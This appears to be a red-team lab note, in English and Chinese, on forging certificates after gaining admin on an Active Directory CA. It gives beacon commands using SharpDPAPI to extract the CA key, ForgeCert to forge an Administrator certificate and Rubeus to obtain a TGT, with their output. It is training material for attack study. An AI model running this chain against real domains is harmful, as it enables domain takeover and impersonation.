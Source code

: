 

# Forged Certificates

> Gaining local admin access to a CA allows an attacker to extract the CA private key, which can be used to sign a forged certificate (think of this like the krbtgt hash being able to sign a forged TGT)
获得对 CA 的本地管理员访问权限允许攻击者提取 CA 私钥，该私钥可用于签署伪造的证书（将其想象为 krbtgt 哈希能够签署伪造的 TGT）

使用工具[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)析出证书秘钥
```
beacon> run hostname
dc-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Debug\SharpDPAPI.exe certificates /machine
```


![alt Certificates](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/private-ca-key.png?width=1920)

将上面的秘钥内容在kali上保存 为一个```.pem```文件，并且用openssl转成```.pfx```

使用[ForgeCert](https://github.com/GhostPack/ForgeCert)构造伪造的证书

```
C:\Users\Administrator\Desktop>C:\Tools\ForgeCert\ForgeCert\bin\Debug\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@cyberbotic.io" --NewCertPath fake.pfx --NewCertPassword "password"
CA Certificate Information:
  Subject:        CN=ca-1, DC=cyberbotic, DC=io
  Issuer:         CN=ca-1, DC=cyberbotic, DC=io
  Start Date:     2/25/2022 11:29:14 AM
  End Date:       2/25/2047 11:39:08 AM
  Thumbprint:     7F8A1EFB7A50E2D1DE098085301926AA13AE0A71
  Serial:         31AC83C6678F28994CFB58207C9FB668

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: Administrator@cyberbotic.io
  Issuer:         CN=ca-1, DC=cyberbotic, DC=io
  Start Date:     3/1/2022 2:19:20 PM
  End Date:       3/1/2023 2:19:20 PM
  Thumbprint:     73C45EC22357C0451E0F374AC30B5C6F6034B132
  Serial:         009E1C0AE8A247695199F8157DB37E38AD

Done. Saved forged certificate to fake.pfx with the password 'password'
```

SubjectAltName最好是域里真实的账号名字

使用Rubeus.exe制造一个tgt
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:Administrator /domain:cyberbotic.io /certificate:MIACAQ[...snip...]IEAAAA /password:password /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=User 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'cyberbotic.io\Administrator'
[*] Using domain controller: 10.10.15.75:88

[+] TGT request successful!
[*] base64(ticket.kirbi):

doIF4j [...snip...] 5pbw==
```